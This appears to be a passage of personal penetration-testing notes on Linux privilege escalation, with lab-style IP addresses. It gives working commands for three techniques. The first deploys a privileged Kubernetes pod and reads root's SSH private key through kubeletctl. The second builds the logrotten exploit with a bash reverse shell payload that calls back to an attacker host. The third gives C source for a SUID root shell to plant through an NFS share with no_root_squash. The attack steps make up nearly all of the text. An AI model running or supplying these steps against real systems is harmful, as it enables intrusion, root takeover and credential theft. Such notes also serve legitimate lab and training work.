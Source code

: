 - Creation new pod : 
```sh
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
#output

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```

- Extracting root ssh or make a reverse shell : 
```sh
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```

**Logrotate**
#Logrotate

- Download logrotten :
```sh
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

- In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function:
```sh
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

- Exploit: 
```sh
./logrotten -p ./payload /tmp/tmp.log
```

**Weak NFS Privileges :** 

```sh
showmount -e 10.129.2.12
cat /etc/exports

#no_root_squash
```

- shell bit SUID : 
```sh
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
